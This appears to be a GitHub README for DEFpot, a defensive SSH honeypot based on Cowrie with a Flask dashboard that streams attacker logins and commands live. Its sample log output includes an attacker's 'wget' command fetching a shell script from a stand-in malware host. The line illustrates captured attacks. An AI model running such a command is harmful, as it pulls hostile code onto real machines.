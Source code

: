 <p align="center">
  <img src="images/logo.png" alt="DEFpot logo" width="160">
</p>

# DEFpot  
“Step in the pot. Join the flock.”

## 🐍 Overview

**DEFpot** is a lightweight SSH honeypot system based on [Cowrie](https://github.com/cowrie/cowrie), designed to monitor and log unauthorized login attempts in real-time via a clean Flask-based web UI.

Attackers are lured into an isolated fake SSH environment where every move they make — from connection, login, to command execution — is logged and streamed live in a browser.

## 🔥 Features

- ✅ Real-time traffic display via Flask + SSE
- ✅ Auto-scrolling log viewer with dark mode
- ✅ Visual feedback on:
  - Port scanning behavior
  - SSH logins (usernames)
  - Telnet logins (usernames)
  - Commands executed
- ✅ Fully sandboxed via `python3-venv`
- ✅ Systemd service for persistent honeypot runtime

---

## 🧱 Folder Structure

```
DEFpot/
├── cowrie/                # Pre-configured Cowrie honeypot
├── cowrie_web_monitor/    # Flask-based UI
│   ├── app.py             # Main web app
│   ├── templates/
│   │   └── index.html
│   └── static/
│       └── styles.css
├── install.sh             # Auto-setup script
└── README.md              # This file
```

---

## ⚙️ Installation

1. Clone the repository:

```bash
git clone https://github.com/Dark-Avenger-Reborn/DEFpot.git
cd DEFpot
```

2. Run the setup script:

```bash
chmod +x install.sh
./install.sh
```

This will:
- Install system dependencies
- Set up a virtual environment inside `cowrie/`
- Install Cowrie's requirements
- Create a systemd service for Cowrie
- Start Cowrie as a background service

3. Configure your firewall/router to **forward port `22` (SSH)** to **port `2223`** on the host machine.  
   This is required because Cowrie listens on `2223` (by default) instead of directly on `22`.

> 🔒 This prevents Cowrie from needing root to bind to port 22, while still catching incoming SSH traffic.

---

## 🚀 Running the Web UI

In a second terminal:

```bash
cd cowrie_web_monitor
python3 app.py
```

Then visit:

```
http://localhost:8080
```

You'll see live attack logs stream in as they happen.

---

## 🕵️‍♀️ What You’ll See

Example logs:

```
192.168.0.5 is scanning ports  
192.168.0.5 logged in as root via SSH  
192.168.0.5 ran: wget http://malware.site/shell.sh
```

---

## 📣 Optional: Discord Webhook Alerts

To enable alerts:

1. Create a Discord webhook.
2. Save the URL in a file named `webhook_url.txt` one directory above the web UI:

```
DEFpot/
├── webhook_url.txt      # Place it here
├── cowrie/
├── cowrie_web_monitor/
```

> ❗ If the file is missing or the webhook is broken, the system **fails silently** — no crashes.

---

## 🔁 Required for Full Operation

✅ Cowrie must be running as a `systemd` service  
✅ `app.py` must be running to serve the web UI  
✅ Port 22 must be redirected to Cowrie’s listening port (default: 2223)

---

## 💬 Tips

- Want to run `app.py` as a service? Consider `systemd` or `supervisor`.
- Use `ufw` or `iptables` to control and log forwarded traffic.
- Tail the raw log manually:  
  `tail -f cowrie/var/log/cowrie/cowrie.log`

---

## 📜 License

MIT — see [LICENSE](LICENSE)

---

**DEFpot**  
“Step in the pot. Join the flock.”
